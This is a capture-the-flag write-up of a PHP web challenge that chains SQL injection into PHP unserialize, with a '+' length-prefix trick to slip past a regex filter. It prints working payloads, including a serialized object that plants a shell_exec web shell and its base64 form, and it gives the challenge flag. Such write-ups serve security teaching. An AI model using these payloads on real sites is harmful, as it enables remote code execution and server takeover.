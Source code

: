 ```yaml
---
title: Everyone loves canteen food
author: Poory
description: Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
categories:
    - Web
year: 2025
challengefiles: canteenfood.zip
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **PHP** website offering canteen food which can be filtered by a simple input
    **- Key Discoveries:** Input is processed via **SQL** and **PHP** `unserialize`
    **- Vulnerability:** The **SQL** query is injectable making the used **PHP** `unserialize` exploitable
    **- Exploitation:** Bypassing the **PHP** `unserialize` object regex via a `+` before the `uiv` part will result in RCE

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to exploit a **PHP** unserialize vulnerability via **SQL** injection, bypassing some weak regex filters.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a look at the website, we are welcomed by a beautiful gif showing all of the available food and some price input field with which we can filter the offered food. It is displaying all the items cheaper than the provided value:

![landing page](ctf/writeups/cscg/everyonelovescanteenfood/landing_page.png "landing page")

Clicking on the linked admin panel at the top greets us with a warm welcome message:

```
Only access allowed for canteen admin!!!
```

For this challenge, the source code is provided. The web server is implemented with plain **PHP** v7.1 - the exact **PHP** version will be important later. The flag itself is hidden in a `flag.txt` file with restrictive access flags and is being controlled by the `root` user. Next to the flag file is a `readflag` binary with which we can read out the flag. This is a typical RCE challenge setup.
<span>
The web server uses the [MVC pattern](https://de.wikipedia.org/wiki/Model_View_Controller) to provide the interactive functionality. There is an `AdminController.php` and a `CanteenController.php`, each with its appropriate `AdminModel.php` and `CanteenModel.php`. In addition to the capabilities of a normal user, the admin user can also access the logs of the website with the functionality in its controller. In the `AdminModel`, the class has some interesting functions like `__wakeup`, which will become important later. The `CanteenModel`, which is used by every normal user, implements two functions to obtain the data shown on the landing page. The first one `getFood` just fetches all of the food from the database, adds a log to `log.txt` and rerandomizes the prices for each food. The second one `filterFood` filters the shown food by applying the user input to a **SQL** query and thus fetching only a limited amount of the food. Both of these functions also contain some functionality for unserialization in specific cases. Having a closer look at these functions immediately reveals the following vulnerabilities:

- **SQL** injection - The user input `$price_param` for the `filterFood` function is concatenated with the query without any sanitization and prepared statements:

```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

- **PHP** Unserialize - Probably for backwards compatibility, some parts of the **SQL** query result containing the `oldvalue` attribute are deserialized:

```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);
```

Having these vulnerabilities, `filterFood` is the more interesting function, as we control the input parameter for this function.

# 3. SQL injection<a id="SQL injection"></a>
At first, we should analyze how to exploit the **SQL** injection as the called `unserialize` function is dependent on the results of the **SQL** query. The `SELECT` query is ideal for a `UNION` attack with which we can append arbitrary data to the rows from the database matching the initial query. So, using an **SQL** injection payload like:

```sql
500 UNION SELECT 0 AS id, 'Some very juicy meal' AS name, '' AS oldvalue, 0 AS price;
```

we get back the following confirming our successful **SQL** injection:

![sqli](ctf/writeups/cscg/everyonelovescanteenfood/sqli.png "sqli")

This means if we add a legitimate value for `oldvalue`, our user input will be processed by `unserialize`.

# 4. PHP unserialize<a id="php unserialize"></a>
Deserialization is a process where serialized data is converted back to actual data. The **PHP** `unserialize` will take a string and will create instantiated objects, arrays, integers, booleans and other stuff. Each of these data types has its own prefix. For example objects got the prefix `O:` followed by the length of the class name, the class name itself as a string and its attribute fields also written with the serialized notation like for example `O:1:"a":1:{s:5:"value";s:3:"100";}`. The **PHP** [documentation](https://www.php.net/manual/en/function.unserialize.php) describes some interesting internal behaviour:

```
If the variable being unserialized is an object, after successfully reconstructing the object, PHP will automatically attempt to call the `__unserialize` or `__wakeup()` methods (if one exists).
```

In the `AdminModel.php` we will find the implementation of the `AdminModel` for logging purposes. The class also has a `__wakeup` method creating an arbitrary file with arbitrary content:

```php
AdminModel {
    ...
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }
    ...
}
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

This is a great target for the deserialization. So maybe we can just inject with the **SQL** vulnerability some payload like:

```php
O:10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

which creates a **PHP** file named `innocent.php` executing arbitrary commands given via the URL parameter `cmd`. Unfortunately, there is a little twist.
Before the `unserialize` call, the data is checked with a regex filter:

```php
if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
    return 'Not allowed';
}
```

The regex checks for strings starting with the prefix `O:`, followed by some digits and an arbitrary string. There are several data types you can deserialize, like integer, boolean, arrays, but also custom objects by starting with `C:`. Sadly, custom objects are not applicable in this case as none of the **PHP** classes implement `Serializable` and will give us RCE.
<span>
There must be another way to bypass the regex, something that's not obvious at first glance. The code is the best documentation, so let's dive into the implementation of **PHP** `unserialize`. We have to be careful with the version as the challenge doesn't use the latest **PHP** version, but v7.1. For the implementation, **PHP** uses the [re2c](https://re2c.org/) lexer generator. The length value `uiv` of the serialized object is parsed by the `parse_uiv` function, which implements some [interesting behaviour](https://github.com/php/php-src/blob/PHP-7.1.3/ext/standard/var_unserializer.re#L367). If it exists, it will skip a leading `+` character. With this information, we can easily bypass the regex as it only checks for digits in the `uiv` part.

# 5. Exploitation<a id="exploitation"></a>
Now we have to chain our vulnerabilities. For the `unserialize` call, we will use the following payload, which is very similar to the already mentioned one, but this time we add a `+` before the `uiv` part:

```php
O:+10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

Because of the implementation of the `oldvalue` check, we have to encode it with base64. Adding it to our **SQL** injection, we get our payload:

```php
500 UNION SELECT 0 AS id, 'payload' AS name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTI6Imlubm9jZW50LnBocCI7czoxMDoibG9nY29udGVudCI7czozNzoiPD9waHAgZWNobyhzaGVsbF9leGVjKCRfR0VUWydjbWQnXSkpOyI7fQ==' AS oldvalue, 0 AS price;
```

Submitting this payload via the price input field will create a new **PHP** file. Accessing the server on the path `/innocent.php?cmd=/readflag` will then give us the flag.

# 5. Mitigation<a id="mitigation"></a>
This web server has some fundamental flaws. Starting with the **SQL** injection, you should always validate and sanitize any input. This vulnerability could have been simply prevented by using prepared statements. Moreover, the use of `unserialize` always comes with its risks, as presented with this challenge. So don't use `unserialize` if not necessary. Finally, don't use regex for filtering! Instead, rely on **PHP**'s built-in filtering functions like `filter_var` and others. Using regex for input validation can be overly error-prone, especially with complex patterns or edge cases, and may lead to unexpected behavior and security risks.


# 7. Flag<a id="flag"></a>
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u}
